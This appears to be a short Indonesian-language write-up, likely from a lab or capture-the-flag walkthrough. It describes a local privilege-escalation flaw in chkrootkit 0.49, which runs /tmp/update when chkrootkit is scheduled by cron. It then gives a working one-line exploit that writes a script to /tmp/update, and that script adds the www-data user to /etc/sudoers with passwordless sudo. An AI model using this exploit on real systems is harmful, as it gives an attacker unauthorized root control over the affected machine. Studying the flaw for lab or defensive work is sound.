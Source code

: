 Chkrootkit versi 0.49 memiliki celah local priv esc, jika chkrootkit ditemukan pada cron job. misalnya pada `/etc/cron.daily` maka chkrootkit ini akan selalu mengeksekusi file `/tmp/update`
Lalu kita buat exploit agar user kita saat ini jadi sudoers (bisa akses sudo)
```
echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

```